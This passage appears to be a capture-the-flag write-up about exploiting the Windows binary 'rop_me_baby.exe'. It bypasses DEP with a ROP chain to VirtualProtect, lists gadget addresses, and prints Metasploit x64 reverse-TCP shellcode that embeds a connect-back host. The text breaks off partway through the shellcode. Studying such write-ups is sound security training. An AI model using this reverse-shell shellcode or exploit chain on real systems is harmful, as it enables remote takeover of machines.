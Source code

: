 So, I can catch `RIP` .

### Exploit

I used reverse connection Because it is communication between server and client.

This .exe has `DEP` protection.

So we have to bypass `DEP` with `windows ROP`.

The payload scenario is shown below.

```
0. Prepare a server for reverse connection.
1. Set register. ( RCX,RDX,R8,R9 )
2. Call VirtualProtect. ( This function can turn off DEP. )
	- VirtualProtect in kernel32.dll
	- problem give kernel32.dll's base address
	- We can use kernel32's function!
3. build NOP sled + window reverse shellcode.
4. Change the RIP to the position where the nop sled is located.
5. The shell is connected to the my server.
```

Gadgets were extracted from the rop_me_baby.exe binary using rp++.

My gadget is here.

```asm
pop_rbx = 0x00401D52 # pop rbx ; ret ;

pop_rcx = 0x0040c620 # pop rcx ; ret ;
pop_rdx = 0x00401095 # pop rdx ; xor eax, eax ; add rsp, 0x28 ; ret ;
pop_r8  = 0x004960b3 # pop r8 ; add rsp, 0x28 ; pop rbx ; pop rsi ; ret;
pop_r9  = 0x004a4a14 # pop r9 ; mov byte [rbx+0x000000E1], 0x00000001 ; mov byte [rbx+0x000000E0], sil ; add rsp, 0x20 ; pop rbx ; pop rsi ; pop rdi ; ret ;
log.info("pop_rcx : " + hex(pop_rcx))
log.info("pop_rdx : " + hex(pop_rdx))
log.info("pop_r8  : " + hex(pop_r8))
log.info("pop_r9  : " + hex(pop_r9))
```

The shellcode came from the metasploit with the windows x64 tcp reverse conection.

My shellcode is here.

```c
shellcode = ""
shellcode += "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50" 
shellcode += "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52" 
shellcode += "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a" 
shellcode += "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41" 
shellcode += "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52" 
shellcode += "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48" 
shellcode += "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40" 
shellcode += "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48" 
shellcode += "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41" 
shellcode += "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1" 
shellcode += "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c" 
shellcode += "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01" 
shellcode += "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a" 
shellcode += "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b" 
shellcode += "\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33" 
shellcode += "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00" 
shellcode += "\x00\x49\x89\xe5\x49\xbc\x02\x00\x2d\x5b\xd3\xef\x7c\xed"
shellcode += "\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
shellcode += "\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
shellcode += "\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
shellcode += "\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea" 
```
